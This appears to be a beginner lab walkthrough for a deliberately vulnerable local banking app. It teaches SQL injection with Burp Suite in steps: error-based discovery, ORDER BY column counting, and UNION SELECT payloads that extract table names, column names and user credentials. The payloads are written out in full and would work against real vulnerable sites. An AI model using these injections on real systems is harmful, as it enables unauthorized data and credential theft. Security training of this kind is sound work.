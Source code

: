 
## Beginner Labs

### SQL Injection Lab

**Lab URL:** `http://localhost:5000/api/vuln/sqli`

**Objective:** Exploit SQL injection vulnerabilities to extract sensitive data and bypass authentication.

#### Step 1: Initial Reconnaissance
1. Open Burp Suite and ensure proxy interception is ON
2. Navigate to the SQL injection lab URL
3. Observe the banking application interface with multiple tabs:
   - Basic SQLi
   - Union-Based
   - Blind SQLi
   - Auth Bypass

#### Step 2: Basic SQL Injection Discovery
1. In the "Basic SQLi" tab, enter `1` in the User ID field
2. Click "Lookup User" while Burp proxy is intercepting
3. **Burp Action:** Send the request to Repeater (Ctrl+R)
4. In Repeater, modify the `id` parameter to test for injection:
   ```
   GET /api/vuln/sqli?id=1' HTTP/1.1
   ```
5. **Expected Result:** Database error message revealing MySQL backend
6. **Screenshot Location:** Save response showing SQL error

#### Step 3: Union-Based SQL Injection
1. Switch to "Union-Based" tab in the lab
2. Intercept the search request with Burp
3. **Burp Action:** Send to Repeater and test column count:
   ```
   GET /api/vuln/sqli?search=banking' ORDER BY 1-- HTTP/1.1
   GET /api/vuln/sqli?search=banking' ORDER BY 2-- HTTP/1.1
   GET /api/vuln/sqli?search=banking' ORDER BY 3-- HTTP/1.1
   ```
4. Continue until you get an error to determine column count
5. **Union Attack:** Extract database information:
   ```
   GET /api/vuln/sqli?search=banking' UNION SELECT 1,database(),version()-- HTTP/1.1
   ```
6. **Screenshot Location:** Save response showing database name and version

#### Step 4: Data Extraction
1. **Extract table names:**
   ```
   GET /api/vuln/sqli?search=banking' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema=database()-- HTTP/1.1
   ```
2. **Extract column names from users table:**
   ```
   GET /api/vuln/sqli?search=banking' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users'-- HTTP/1.1
   ```
3. **Extract user credentials:**
   ```
   GET /api/vuln/sqli?search=banking' UNION SELECT 1,CONCAT(username,':',password),3 FROM users-- HTTP/1.1
   ```
4. **Screenshot Location:** Save response showing extracted usernames and passwords
